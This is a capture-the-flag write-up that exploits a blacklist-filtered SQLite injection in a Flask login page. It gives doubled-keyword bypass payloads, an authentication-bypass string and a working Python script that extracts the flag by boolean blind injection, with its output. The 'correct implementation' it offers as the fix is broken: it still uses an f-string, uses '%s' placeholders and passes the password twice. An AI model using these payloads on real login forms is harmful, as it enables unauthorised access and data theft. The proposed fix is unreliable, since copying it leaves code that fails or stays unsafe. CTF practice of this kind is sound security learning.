

# ImginaryCTF - Awkward_Bypass Writeup
Written by sudoutopia

## Introduction

During the weekends, it's nothing atypical for CTFs competitions to start, in which you can compete in. Me and a couple of friends, notably: Hypervisor, Me and Charif decided to check out some challenges on CTFTime as we've mostly done our CTF activites on the Capture The Flag platform [HackTheBox](https://www.hackthebox.eu/), so for fun we decided to check out ImginaryCTF as it was one of the CTFs running at the time, and we decided to mostly focus on our area of expertise/interest. While Hypervisor mostly focused on pwn/rev, me and Charif decided to focus on Web. One challenge which I grew fond of, although not being anything high calibre was `Awkward_Bypass`, which was `150` point challenge with currently 58 solves which involved simple SQLITE Boolean Injection with some easy filter bypassing work, another interesting aspect that this challenge reminded me of was how being overly reliant on autopwner or automated tools such as `sqlmap` can be bad.

## Table of contents
For convience sake, I like to split my writeups into sections.

- Source code audit
	- SQL Injection
	- Blacklist
- Setup
	- Setting up a makeshift SQLITE database
- Observing the application
	- Observing how the web application responds to certain events
- Trying to bypass the blacklist
	- Insecure regex match and replace
- SQL Injection
	- Testing if boolean is the correct way to go
	- Exploiting boolean SQLi to retrive flag from DB


## Source code audit

It's typical for CTFs alike to include the source code for the challenge, this is in order to be able to solve the challenge and be given context on how it works in a much deeper level.

This is the source code that we've given, named `app.py`

```py
import re  
import sqlite3  
from flask import Flask, render_template, url_for, request, redirect, make_response  
  
app = Flask(__name__)  
  
blacklist = ["ABORT", "ACTION", "ADD", "AFTER", "ALL", "ALTER", "ALWAYS", "ANALYZE", "AND", "AS", "ASC", "ATTACH", "AUTOINCREMENT", "BEFORE", "BEGIN", "BETWEEN", "CASC  
ADE", "CASE", "CAST", "CHECK", "COLLATE", "COLUMN", "COMMIT", "CONFLICT", "CONSTRAINT", "CREATE", "CROSS", "CURRENT", "CURRENT_DATE", "CURRENT_TIME", "CURRENT_TIMESTAM  
P", "DATABASE", "DEFAULT", "DEFERRABLE", "DEFERRED", "DELETE", "DESC", "DETACH", "DISTINCT", "DO", "DROP", "EACH", "ELSE", "END", "ESCAPE", "EXCEPT", "EXCLUDE", "EXCLU  
SIVE", "EXISTS", "EXPLAIN", "FAIL", "FILTER", "FIRST", "FOLLOWING", "FOR", "FOREIGN", "FROM", "FULL", "GENERATED", "GLOB", "GROUP", "GROUPS", "HAVING", "IF", "IGNORE",  
"IMMEDIATE", "IN", "INDEX", "INDEXED", "INITIALLY", "INNER", "INSERT", "INSTEAD", "INTERSECT", "INTO", "IS", "ISNULL", "JOIN", "KEY", "LAST", "LEFT", "LIKE", "LIMIT",  
"MATCH", "MATERIALIZED", "NATURAL", "NO", "NOT", "NOTHING", "NOTNULL", "NULL", "NULLS", "OF", "OFFSET", "ON", "OR", "ORDER", "OTHERS", "OUTER", "OVER", "PARTITION", "  
PLAN", "PRAGMA", "PRECEDING", "PRIMARY", "QUERY", "RAISE", "RANGE", "RECURSIVE", "REFERENCES", "REGEXP", "REINDEX", "RELEASE", "RENAME", "REPLACE", "RESTRICT", "RETURN  
ING", "RIGHT", "ROLLBACK", "ROW", "ROWS", "SAVEPOINT", "SELECT", "SET", "TABLE", "TEMP", "TEMPORARY", "THEN", "TIES", "TO", "TRANSACTION", "TRIGGER", "UNBOUNDED", "UNI  
ON", "UNIQUE", "UPDATE", "USING", "VACUUM", "VALUES", "VIEW", "VIRTUAL", "WHEN", "WHERE", "WINDOW", "WITH", "WITHOUT"]    
  
def checkCreds(username, password):  
       con = sqlite3.connect('database.db')  
       cur = con.cursor()  
       for n in blacklist:  
               regex = re.compile(n, re.IGNORECASE)  
               username = regex.sub("", username)  
       for n in blacklist:  
               regex = re.compile(n, re.IGNORECASE)  
               password = regex.sub("", password)  
       print(f"SELECT * FROM users WHERE username='{username}' AND password='{password}'")  
       try:  
               content = cur.execute(f"SELECT * FROM users WHERE username='{username}' AND password='{password}'").fetchall()  
       except:  
               return False  
       cur.close()  
       con.close()  
       if content == []:  
               return False  
       else:  
               return True  
  
@app.route('/')  
def index():  
       return render_template("index.html")  
  
@app.route('/user', methods=['POST'])  
def user():  
       if request.method == 'POST':    
               username = request.values['username']  
               password = request.values['password']  
               if checkCreds(username, password) == True:  
                       return render_template("user.html")  
               else:  
                       return "Error"  
       else:  
               return render_template("user.html")
```

### SQL Injection

```py
 try:  
      content = cur.execute(f"SELECT * FROM users WHERE username='{username}' AND password='{password}'").fetchall()  
 except:  
	return False
```

The Flask application seems to just feed the user input into the SQL query by using fstrings, if you don't know what you're doing, this might seem like the correct approach, but in fact is not, and terribly insecure.

A correct implementation of this would be this:

```py
 try:  
      content = cur.execute(f"SELECT * FROM users WHERE username='%s' AND password='%s'", (password, password, )).fetchall()  
 	
 except:  
	return False

```

We've now identified what the vulnerability is, an SQL Injection, but another interesting thing to take notice is the DBMS is in use, in this instance, it's an `sqlite` database, this comes in very useful when developing payloads for SQLi as different DBMS have different quirks with their queries.

```py
con = sqlite3.connect('database.db')  
cur = con.cursor()
```

We've also identified that there is an existing table called `users` which has two columns, `username` and `password`.

### Blacklist

As expected, one of the first things you'd notice is that very large and long blacklist.

```py
blacklist = ["ABORT", "ACTION", "ADD", "AFTER", "ALL", "ALTER", "ALWAYS", "ANALYZE", "AND", "AS", "ASC", "ATTACH", "AUTOINCREMENT", "BEFORE", "BEGIN", "BETWEEN", "CASC  
ADE", "CASE", "CAST", "CHECK", "COLLATE", "COLUMN", "COMMIT", "CONFLICT", "CONSTRAINT", "CREATE", "CROSS", "CURRENT", "CURRENT_DATE", "CURRENT_TIME", "CURRENT_TIMESTAM  
P", "DATABASE", "DEFAULT", "DEFERRABLE", "DEFERRED", "DELETE", "DESC", "DETACH", "DISTINCT", "DO", "DROP", "EACH", "ELSE", "END", "ESCAPE", "EXCEPT", "EXCLUDE", "EXCLU  
SIVE", "EXISTS", "EXPLAIN", "FAIL", "FILTER", "FIRST", "FOLLOWING", "FOR", "FOREIGN", "FROM", "FULL", "GENERATED", "GLOB", "GROUP", "GROUPS", "HAVING", "IF", "IGNORE",  
"IMMEDIATE", "IN", "INDEX", "INDEXED", "INITIALLY", "INNER", "INSERT", "INSTEAD", "INTERSECT", "INTO", "IS", "ISNULL", "JOIN", "KEY", "LAST", "LEFT", "LIKE", "LIMIT",  
"MATCH", "MATERIALIZED", "NATURAL", "NO", "NOT", "NOTHING", "NOTNULL", "NULL", "NULLS", "OF", "OFFSET", "ON", "OR", "ORDER", "OTHERS", "OUTER", "OVER", "PARTITION", "  
PLAN", "PRAGMA", "PRECEDING", "PRIMARY", "QUERY", "RAISE", "RANGE", "RECURSIVE", "REFERENCES", "REGEXP", "REINDEX", "RELEASE", "RENAME", "REPLACE", "RESTRICT", "RETURN  
ING", "RIGHT", "ROLLBACK", "ROW", "ROWS", "SAVEPOINT", "SELECT", "SET", "TABLE", "TEMP", "TEMPORARY", "THEN", "TIES", "TO", "TRANSACTION", "TRIGGER", "UNBOUNDED", "UNI  
ON", "UNIQUE", "UPDATE", "USING", "VACUUM", "VALUES", "VIEW", "VIRTUAL", "WHEN", "WHERE", "WINDOW", "WITH", "WITHOUT"]
```

Seems to be an array of SQL statements and clauses it does not want you to use, which it'll strip from your input using `re` which is Python's Regex library in the `checkCreds()` function.

```py
def checkCreds(username, password):  
       con = sqlite3.connect('database.db')  
       cur = con.cursor()  
       for n in blacklist:  
               regex = re.compile(n, re.IGNORECASE)  
               username = regex.sub("", username)  
       for n in blacklist:  
               regex = re.compile(n, re.IGNORECASE)  
               password = regex.sub("", password)  
       print(f"SELECT * FROM users WHERE username='{username}' AND password='{password}'")  
       try:  
               content = cur.execute(f"SELECT * FROM users WHERE username='{username}' AND password='{password}'").fetchall()  
       except:  
               return False  
       cur.close()  
       con.close()  
       if content == []:  
               return False  
       else:  
               return True  
```

Match and replace blacklisted input is quite a bad method of defending against most attacks, as they can in most cases easily be circumvented, you'll see how we succeed in this later.


## Setup

### Setting up a makeshift SQLITE database

I usually setup a makeshift databse that replicates the target enviroment when it comes to SQL Injection challenges due to how much easier it makes developing payloads and understanding the intricacies of them.

```sh
sudo apt install sqlite3
sqlite testdb.db
SQLite version 2.8.17  
Enter ".help" for instructions  
sqlite>
```

I simply create a table `users` with the columns `username` and `password`, and then feed random input into them.

```sh
sqlite> CREATE TABLE users (username VARCHAR(100), password VARCHAR(100));  
sqlite> INSERT INTO users (username, password) VALUES ("administrator","password123");  
sqlite> .tables  
users  
sqlite> SELECT * FROM users;  
administrator|password123  
sqlite>
```


## Observing the application

### Observing how the web application responds to certain events

Visiting `https://awkward-bypass.chal.imaginaryctf.org/` shows this webpage,



Seems like a standard webpage with nothing interesting, and viewing the source also is false hope as it has includes nothing out of the ordinary or of interest.

```html
<!DOCTYPE HTML> <style> input {
  font-size: 28px;
  margin-top: 20px;
	}
  h1 {
    font-family: "Trebuchet MS";
  }
	body {
		background-color: #ADD8E6;
	} </style> <center> <h1>Login to get the flag 😉<h1> <form action="[/user](view-source:https://awkward-bypass.chal.imaginaryctf.org/user)" method="POST"> <input type="text" placeholder="Username" name="username"></input> <br> <input type="text" placeholder="Password" name="password"></input> <br> <input type="submit" value="Login"></input> </form> </center>
```

Inputting wrong credentials, redirects us to `https://awkward-bypass.chal.imaginaryctf.org/user` with a response saying `Error`


We can assume that when we feed in the correct credentials, it will not respond with that.

Alright from all the information we've gathered, it seems that we either need to bypass the authentication to retrive the flag, or we need to utilize the behaviour of it returning `Error` depending on if a condition is met or not for Boolean SQLi.

## Trying to bypass the blacklist
### Insecure regex match and replace

Going back to the extremely large blacklist put in place that we've discussed.

```py
blacklist = ["ABORT", "ACTION", "ADD", "AFTER", "ALL", "ALTER", "ALWAYS", "ANALYZE", "AND", "AS", "ASC", "ATTACH", "AUTOINCREMENT", "BEFORE", "BEGIN", "BETWEEN", "CASC  
ADE", "CASE", "CAST", "CHECK", "COLLATE", "COLUMN", "COMMIT", "CONFLICT", "CONSTRAINT", "CREATE", "CROSS", "CURRENT", "CURRENT_DATE", "CURRENT_TIME", "CURRENT_TIMESTAM  
P", "DATABASE", "DEFAULT", "DEFERRABLE", "DEFERRED", "DELETE", "DESC", "DETACH", "DISTINCT", "DO", "DROP", "EACH", "ELSE", "END", "ESCAPE", "EXCEPT", "EXCLUDE", "EXCLU  
SIVE", "EXISTS", "EXPLAIN", "FAIL", "FILTER", "FIRST", "FOLLOWING", "FOR", "FOREIGN", "FROM", "FULL", "GENERATED", "GLOB", "GROUP", "GROUPS", "HAVING", "IF", "IGNORE",  
"IMMEDIATE", "IN", "INDEX", "INDEXED", "INITIALLY", "INNER", "INSERT", "INSTEAD", "INTERSECT", "INTO", "IS", "ISNULL", "JOIN", "KEY", "LAST", "LEFT", "LIKE", "LIMIT",  
"MATCH", "MATERIALIZED", "NATURAL", "NO", "NOT", "NOTHING", "NOTNULL", "NULL", "NULLS", "OF", "OFFSET", "ON", "OR", "ORDER", "OTHERS", "OUTER", "OVER", "PARTITION", "  
PLAN", "PRAGMA", "PRECEDING", "PRIMARY", "QUERY", "RAISE", "RANGE", "RECURSIVE", "REFERENCES", "REGEXP", "REINDEX", "RELEASE", "RENAME", "REPLACE", "RESTRICT", "RETURN  
ING", "RIGHT", "ROLLBACK", "ROW", "ROWS", "SAVEPOINT", "SELECT", "SET", "TABLE", "TEMP", "TEMPORARY", "THEN", "TIES", "TO", "TRANSACTION", "TRIGGER", "UNBOUNDED", "UNI  
ON", "UNIQUE", "UPDATE", "USING", "VACUUM", "VALUES", "VIEW", "VIRTUAL", "WHEN", "WHERE", "WINDOW", "WITH", "WITHOUT"]    
  
def checkCreds(username, password):  
       con = sqlite3.connect('database.db')  
       cur = con.cursor()  
       for n in blacklist:  
               regex = re.compile(n, re.IGNORECASE)  
               username = regex.sub("", username)  
       for n in blacklist:  
               regex = re.compile(n, re.IGNORECASE)  
               password = regex.sub("", password)  
       print(f"SELECT * FROM users WHERE username='{username}' AND password='{password}'")  
       try:  
               content = cur.execute(f"SELECT * FROM users WHERE username='{username}' AND password='{password}'").fetchall()  
       except:  
               return False  
       cur.close()  
       con.close()  
       if content == []:  
               return False  
       else:  
               return True  
```

The Regex match and replace is quite trivial to bypass, due to match and replace as a form of defense mechanism is already a bad idea, as sanitization should always be your first form of defense.

The regex match and replace is equivelant to doing `str.replace()` using the built-in method `replace()`.

```py
>>> "' OR 1=1".replace("OR","")   
"'  1=1"  
>>> "' OORR 1=1".replace("OR","")           
"' OR 1=1"  
>>>
```

As you can see, this was very easily circumventable, and the only difference with the regex match and replace and `.replace()` built-in method is that the regex match and replace isn't case sensitive.

We can test our filter/blacklist bypass with this simple python script

```py
import re  
  
blacklist = ["ABORT", "ACTION", "ADD", "AFTER", "ALL", "ALTER", "ALWAYS", "ANALYZE", "AND", "AS", "ASC", "ATTACH", "AUTOINCREMENT", "BEFORE", "BEGIN", "BETWEEN", "CASC  
ADE", "CASE", "CAST", "CHECK", "COLLATE", "COLUMN", "COMMIT", "CONFLICT", "CONSTRAINT", "CREATE", "CROSS", "CURRENT", "CURRENT_DATE", "CURRENT_TIME", "CURRENT_TIMESTAM  
P", "DATABASE", "DEFAULT", "DEFERRABLE", "DEFERRED", "DELETE", "DESC", "DETACH", "DISTINCT", "DO", "DROP", "EACH", "ELSE", "END", "ESCAPE", "EXCEPT", "EXCLUDE", "EXCLU  
SIVE", "EXISTS", "EXPLAIN", "FAIL", "FILTER", "FIRST", "FOLLOWING", "FOR", "FOREIGN", "FROM", "FULL", "GENERATED", "GLOB", "GROUP", "GROUPS", "HAVING", "IF", "IGNORE",  
"IMMEDIATE", "IN", "INDEX", "INDEXED", "INITIALLY", "INNER", "INSERT", "INSTEAD", "INTERSECT", "INTO", "IS", "ISNULL", "JOIN", "KEY", "LAST", "LEFT", "LIKE", "LIMIT",  
"MATCH", "MATERIALIZED", "NATURAL", "NO", "NOT", "NOTHING", "NOTNULL", "NULL", "NULLS", "OF", "OFFSET", "ON", "OR", "ORDER", "OTHERS", "OUTER", "OVER", "PARTITION", "  
PLAN", "PRAGMA", "PRECEDING", "PRIMARY", "QUERY", "RAISE", "RANGE", "RECURSIVE", "REFERENCES", "REGEXP", "REINDEX", "RELEASE", "RENAME", "REPLACE", "RESTRICT", "RETURN  
ING", "RIGHT", "ROLLBACK", "ROW", "ROWS", "SAVEPOINT", "SELECT", "SET", "TABLE", "TEMP", "TEMPORARY", "THEN", "TIES", "TO", "TRANSACTION", "TRIGGER", "UNBOUNDED", "UNI  
ON", "UNIQUE", "UPDATE", "USING", "VACUUM", "VALUES", "VIEW", "VIRTUAL", "WHEN", "WHERE", "WINDOW", "WITH", "WITHOUT"]    
  
username = input()  
password = input()  
  
  
for n in blacklist:  
       regex = re.compile(n, re.IGNORECASE)  
       username = regex.sub("", username)  
for n in blacklist:  
       regex = re.compile(n, re.IGNORECASE)  
       password = regex.sub("", password)  
  
print(f"SELECT * FROM users WHERE username='{username}' AND password='{password}'")
```

```sh
utopia@messiah:~/Documents/CTFs/awkward_bypass$ python3 sql.py   
' OR 1=1 -- -  <-- Username field
blabla  <-- Password field
SELECT * FROM users WHERE username=''  1=1 -- -' AND password='blabla' <-- result of filtering
```

Now let's try to bypass it using the same principle of `str.replace()`.

```sh
utopia@messiah:~/Documents/CTFs/awkward_bypass$ python3 sql.py   
' OorR 1=1 -- -  <-- Username field
blabla  <-- Password field
SELECT * FROM users WHERE username='' OR 1=1 -- -' AND password='blabla'  <-- result of filtering
```

We've now officially bypassed the blacklisting/filtering.

## SQL Injection

### Testing if boolean is the correct way to go

We can bypass authenticated pretty easily with the payload `' OorR 1=1; -- -`, this is pretty standard and basic.


It works! Except... we don't have the flag, **yet**. We now have to enumerate the table name column `password` which contains the flag using boolean SQLi.

### Exploiting boolean SQLi to retrive flag from DB

We can also verify quickly verify for boolean SQLi with the payload `' OorR 3>1; -- -`, if the condition evalutes to True, we'll get a `Ummmmmmm, did you expect a flag to be here?` page, if not, we'll get `Error`.

Equipped with this information and also a filter bypass, we can now with ease enumerate the database with this payload

```
`' OorR 1=1 AandND (SEselectLECT hex(substr(paASsswoORrd,1,1)) FRfromOM sqlite_maASster WHwhereERE type='tatableble' AandND tbl_name NnnoOTOT LIlikeKE 'sqlite_%' LIlimitMIT 1 OofFFSsetET 0) > hex('A'); -- -`
```

or without all the filter bypass mess,

```
' OR 1=1 AND (SELECT hex(substr(password,1,1)) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE  'sqlite_%' LIMIT 1 OFFSET 0) > hex('A'); -- -
```

Now, the payload does not make much sense without any information on how it works, basically, if we execute this into our makeshift SQLite database, it'll make more sense.

```
sqlite> SELECT * FROM users WHERE username='' OR 1=1 AND (SELECT hex(substr(password,1,1)) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE  'sqlite_%' LIMIT 1 OFFSET 0) > hex('A'); -- -' AND password=''  
administrator|password123  
john.william|password  
sqlite> SELECT * FROM users WHERE username='' OR 1=1 AND (SELECT hex(substr(password,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('z');           
sqlite>
```

This is the part of the post where I've really struggled to explain how this payload works, and why it works, so I'm going to break it into parts.

The important comparison being `AND (SELECT hex(substr(password,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('z');`, in `substr(password,1,1)`, we select the first character of the first row of the `username` column, and with `hex(substr(password,1,1))` we retrive the hexidecimal representation of the said first character, we then compare it to the hexidecimal representation of the character `z`, and if the quantity of the hex representation of the first character of the password is higher than the injected one, it'll evaluate to True, so if you cycle through the hexidecimal representation of ASCII characters starting from `0` to `127` sequentially , and once we hit a certain character which will trigger an evalation to be False, we know that is correct character, and we increment the character index from  `hex(substr(password,1,1))` to `hex(substr(password,2,1))` until we've obtained the full flag, this is quite a time consuming process if done manually, which is why scripting it is a good idea, which is what I've done.

```py
#!/usr/bin/env python3
import requests
from time import sleep
"""
	Description: Boolean sqlite SQLi
"""

HOST = "https://awkward-bypass.chal.imaginaryctf.org/user"

LENGTH = 1 
FLAG = ""
while True:
	for number in range(21, 126):
		# breaks the query, resulting in a 'Found' which is invalid, resetting it back to
		
		if bytes.fromhex(hex(number)[2:].zfill(2)) == b"'":
			number = 21
		

		# Assigned it to a variable for better readability
		char = bytes.fromhex(hex(number)[2:].zfill(2)).decode("utf-8")
		data = {"username":"' OorR 1=1 AandND (SEselectLECT hex(substr(paASsswoORrd,{1},1)) FRfromOM sqlite_maASster WHwhereERE type='tatableble' AandND tbl_name NnnoOTOT LIlikeKE  'sqlite_%' LIlimitMIT 1 OofFFSsetET 0) > hex('{0}'); -- -".format(char,LENGTH),"password":"whatever"}
		req = requests.post(HOST, data=data)
		
		if req.text == "Error":
			FLAG += bytes.fromhex(hex(number)[2:].zfill(2)).decode("utf-8")
			LENGTH += 1
			print("It was number:",number)
			print(f"Found!: {FLAG}")
			break
		

```

```sh
utopia@messiah:~/Documents/CTFs/Build-A-Website$ python3 exploit.py   
It was number: 105  
Found!: i  
It was number: 99  
Found!: ic  
It was number: 116  
Found!: ict  
It was number: 102  
Found!: ictf  
It was number: 123  
Found!: ictf{  
It was number: 110  
Found!: ictf{n  
It was number: 49  
Found!: ictf{n1  
It was number: 99  
Found!: ictf{n1c  
It was number: 51  
Found!: ictf{n1c3  
It was number: 95  
Found!: ictf{n1c3_  
It was number: 102  
Found!: ictf{n1c3_f  
It was number: 105  
Found!: ictf{n1c3_fi  
It was number: 108  
Found!: ictf{n1c3_fil  
It was number: 55  
Found!: ictf{n1c3_fil7  
It was number: 51  
Found!: ictf{n1c3_fil73  
It was number: 114  
Found!: ictf{n1c3_fil73r  
It was number: 95  
Found!: ictf{n1c3_fil73r_  
It was number: 98  
Found!: ictf{n1c3_fil73r_b  
It was number: 121  
Found!: ictf{n1c3_fil73r_by  
It was number: 112  
Found!: ictf{n1c3_fil73r_byp  
It was number: 64  
Found!: ictf{n1c3_fil73r_byp@  
It was number: 115  
Found!: ictf{n1c3_fil73r_byp@s  
It was number: 115  
Found!: ictf{n1c3_fil73r_byp@ss  
It was number: 95  
Found!: ictf{n1c3_fil73r_byp@ss_  
It was number: 55  
Found!: ictf{n1c3_fil73r_byp@ss_7  
It was number: 49  
Found!: ictf{n1c3_fil73r_byp@ss_71  
It was number: 51  
Found!: ictf{n1c3_fil73r_byp@ss_713  
It was number: 48  
Found!: ictf{n1c3_fil73r_byp@ss_7130  
It was number: 54  
Found!: ictf{n1c3_fil73r_byp@ss_71306  
It was number: 55  
Found!: ictf{n1c3_fil73r_byp@ss_713067  
It was number: 54  
Found!: ictf{n1c3_fil73r_byp@ss_7130676  
It was number: 100  
Found!: ictf{n1c3_fil73r_byp@ss_7130676d  
It was number: 125  
Found!: ictf{n1c3_fil73r_byp@ss_7130676d}
```

And, we've obtained the flag `ictf{n1c3_fil73r_byp@ss_7130676d}`

Quite fun and easy challenge, I like making writeups on challenges that aren't too hard and understandable. As higher difficulty equates to more explaining, and I'm not a native speaker so I'll have some trouble explaining some concepts or attacks fluentlty. Nonetheless, hope you enjoyed and learned a thing or two.
